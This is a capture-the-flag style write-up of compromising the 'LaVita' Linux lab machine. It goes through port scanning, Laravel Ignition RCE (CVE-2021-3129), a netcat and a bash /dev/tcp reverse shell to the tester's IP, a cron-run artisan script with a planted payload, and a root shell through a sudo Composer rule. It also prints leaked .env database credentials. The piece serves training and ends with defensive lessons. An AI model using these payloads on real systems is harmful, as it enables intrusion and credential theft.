

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | `22/tcp` (SSH), `80/tcp` (Apache/Laravel web app) |
| Primary Entry Vector      | Laravel Ignition RCE (`CVE-2021-3129`) |
| Privilege Escalation Path | Writable cron-executed `artisan` -> `skunk` -> `sudo NOPASSWD composer` -> root |

## Credentials

- Created web account via `/register` (self-registered user)
- Discovered local DB credentials in `.env`:
  - `DB_USERNAME=lavita`
  - `DB_PASSWORD=sdfquelw0kly9jgbx92`

## Reconnaissance

### Port Scan

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
✅[3:36][CPU:5][MEM:40][TUN0:192.168.45.202][/home/n0z0]
🐉 > rustscan -a $ip -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
TreadStone was here 🚀

[~] The config file is expected to be at "/home/n0z0/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.126.38:22
Open 192.168.126.38:80

```

```bash
timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
```

```bash
✅[3:36][CPU:15][MEM:41][TUN0:192.168.45.202][/home/n0z0]
🐉 > timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-12 03:36 JST
Nmap scan report for 192.168.126.38
Host is up (0.082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.56 (Debian)
```

💡 Why this works  
Initial service enumeration narrows the attack surface to realistic entry points. With only SSH and HTTP exposed, web enumeration becomes the highest-value path. Service fingerprints also indicate likely framework and vulnerability candidates.

### Web Enumeration and Laravel Discovery

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip
```

```bash
✅[22:27][CPU:13][MEM:44][TUN0:192.168.45.202][/home/n0z0]
🐉 > feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip
...
200      GET      114l      233w     4916c http://192.168.126.38/login
200      GET       90l      186w     3657c http://192.168.126.38/password/reset
200      GET      115l      243w     4981c http://192.168.126.38/register
200      GET        2l        3w       24c http://192.168.126.38/robots.txt
200      GET       28l       74w     1194c http://192.168.126.38/web.config
```


*Caption: The `/register` endpoint allowed creating a user and entering the authenticated app area.*


*Caption: Internal path details were exposed and useful for follow-up attacks.*


*Caption: Laravel fingerprints were visible in application responses.*

```bash
nuclei -u http://192.168.126.38 -tags laravel
```

```bash
❌[3:59][CPU:6][MEM:49][TUN0:192.168.45.202][/home/n0z0]
🐉 > nuclei -u http://192.168.126.38 -tags laravel
...
[laravel-debug-enabled] [http] [medium] http://192.168.126.38/_ignition/health-check
[CVE-2021-3129] [http] [critical] http://192.168.126.38/_ignition/execute-solution ["uid=33(www-data) gid=33(www-data) groups=33(www-data)"]
```


*Caption: Debug output confirmed information disclosure and exploitability indicators.*

💡 Why this works  
`CVE-2021-3129` affects Laravel Ignition when debug mode is exposed, enabling remote code execution via unsafe error handling/log processing. Once Laravel and debug endpoints are confirmed, exploit tooling can directly validate command execution. This converts a web misconfiguration into shell access.

## Initial Foothold

### Exploiting CVE-2021-3129

```bash
python3 exploit.py http://$ip Monolog/RCE1 "ls -la /usr/bin"
```

```bash
✅[22:36][CPU:2][MEM:48][TUN0:192.168.45.202][...ita/CVE-2021-3129_exploit]
🐉 > python3 exploit.py http://$ip Monolog/RCE1 "ls -la /usr/bin"
/home/n0z0/work/04.OSCP/Proving_Ground/LaVita/CVE-2021-3129_exploit/exploit.py:77: SyntaxWarning: invalid escape sequence '\s'
  result = re.sub("{[\s\S]*}", "", response.text)
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited
```

```bash
python3 exploit.py http://$ip Monolog/RCE1 "busybox nc 192.168.45.202 4444 -e /bin/bash"
```

```bash
✅[5:09][CPU:0][MEM:57][TUN0:192.168.45.202][...ita/CVE-2021-3129_exploit]
🐉 > python3 exploit.py http://$ip Monolog/RCE1 "busybox nc 192.168.45.202 4444 -e /bin/bash"
/home/n0z0/work/04.OSCP/Proving_Ground/LaVita/CVE-2021-3129_exploit/exploit.py:77: SyntaxWarning: invalid escape sequence '\s'
  result = re.sub("{[\s\S]*}", "", response.text)
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
```

```bash
cat /home/skunk/local.txt
```

```bash
/home/skunk/local.txt
www-data@debian:/$ cat /home/skunk/local.txt
41df773a57e4653078f35c288b0736e4
www-data@debian:/$
```

💡 Why this works  
The exploit first verified command execution, then used a payload that matched target capabilities (`busybox nc`). Payload adaptation is often required when traditional reverse-shell one-liners fail. Successful callback gave a `www-data` foothold and access to user-level artifacts.

## Privilege Escalation

### User and Secret Enumeration

```bash
cat /var/www/html/lavita/.env
```

```bash
╔══════════╣ Analyzing Env Files (limit 70)
-rwxr-xr-x 1 www-data www-data 865 Feb 11 13:43 /var/www/html/lavita/.env
APP_NAME=LaVita
APP_ENV=local
APP_KEY=base64:zfXJipTpbCyrZHRDpn0/NmdpHTbAl7/hCMf476EP1LU=
APP_DEBUG=true
APP_URL=http://hb02.onsec
LOG_CHANNEL=stack
LOG_LEVEL=debug
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=lavita
DB_USERNAME=lavita
DB_PASSWORD=sdfquelw0kly9jgbx92
```

💡 Why this works  
Application `.env` files frequently contain sensitive secrets and configuration flags. Here, it confirmed `APP_DEBUG=true` and leaked database credentials. Even when credentials are not directly reusable for login, they provide high-value context for lateral movement and exploit confidence.

### Cron Abuse Through Writable `artisan`

```bash
ls -la /var/www/html/lavita/artisan
```

```bash
www-data@debian:/tmp$ ls -la /var/www/html/lavita/artisan
-rwxr-xr-x 1 www-data www-data 1758 Feb 16 09:56 /var/www/html/lavita/artisan
```

```bash
cat /var/www/html/lavita/artisan
```

```bash
www-data@debian:/tmp$ cat /var/www/html/lavita/artisan
#!/usr/bin/env php
<?php


exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.166/4445 0>&1'");
define('LARAVEL_START', microtime(true));
```

```bash
nc -lvnp 4445
```

```bash
❌[23:55][CPU:18][MEM:67][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.38] 32830
bash: cannot set terminal process group (19627): Inappropriate ioctl for device
bash: no job control in this shell

skunk@debian:~$ id
uid=1001(skunk) gid=1001(skunk) groups=1001(skunk),27(sudo),33(www-data)
```

💡 Why this works  
`pspy` showed a cron task executing Laravel `artisan` as user `skunk`. Since `artisan` was writable by `www-data`, injecting a payload into that script caused cron to run attacker code with `skunk` privileges. This is a classic writable scheduled-script escalation path.

### Root Shell via `sudo` Composer (GTFOBins)


*Caption: Composer was identified as an allowed privileged executable for escalation.*

```bash
sudo -l
```

```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
Matching Defaults entries for skunk on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User skunk may run the following commands on debian:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *
```

```bash
echo '{"scripts":{"pwn":"/bin/sh"}}' >composer.json
```

```bash
www-data@debian:/var/www/html/lavita$ echo '{"scripts":{"pwn":"/bin/sh"}}' >composer.json
www-data@debian:/var/www/html/lavita$
```

```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script pwn
```

```bash
skunk@debian:/var/www/html/lavita$ sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script pwn
Do not run Composer as root/super user! See https://getcomposer.org/root for details
Continue as root/super user [yes]? yes
> /bin/sh
#
```

```bash
cat /root/proof.txt
```

```bash
cat /root/proof.txt
09a4bc5d76182071a20f554fbade3e5d
```

💡 Why this works  
This is the GTFOBins Composer technique: if Composer runs with sudo/root and loads attacker-controlled `composer.json`, custom scripts can execute arbitrary commands as root. The `NOPASSWD` rule with wildcard arguments made exploitation straightforward. Triggering `run-script pwn` spawned a root shell.

## Lessons Learned / Key Takeaways

- Laravel debug mode in exposed environments is dangerous and can directly enable RCE.
- Enumeration must combine endpoint discovery, framework identification, and targeted CVE validation.
- Writable files used by cron jobs are critical privilege-escalation risks.
- `sudo` rules granting scriptable tools (Composer) with broad arguments should be treated as near-root.
- Defensive priority should include strict file permissions, debug-mode disablement, and least-privilege sudo policy.



## References

- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- CVE-2021-3129 exploit PoC: https://github.com/nth347/CVE-2021-3129_exploit
- CVE-2021-3129 details: https://nvd.nist.gov/vuln/detail/CVE-2021-3129
- GTFOBins Composer: https://gtfobins.org/gtfobins/composer/#shell
- HackTricks sudo privesc: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
